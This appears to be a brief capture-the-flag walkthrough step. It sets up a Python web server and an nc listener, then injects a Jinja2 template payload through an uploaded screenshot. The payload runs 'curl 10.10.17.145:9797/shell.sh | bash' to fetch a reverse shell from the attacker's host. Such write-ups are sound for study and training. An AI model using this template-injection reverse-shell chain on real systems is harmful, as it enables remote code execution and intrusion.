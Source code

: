 ![](./IMG/36.png)

- Create a python web service. 
```
python -m http.server 9797
```
- Create nc listener
```
nc -nlvp 1337
```
- Create a screen shot with following 
```
{{ cycler.__init__.__globals__.os.popen('curl 10.10.17.145:9797/shell.sh | bash').read() }}
```

![](./IMG/37.png)
- Upload it and check python service
![](./IMG/38.png)
- Check nc get shell or not 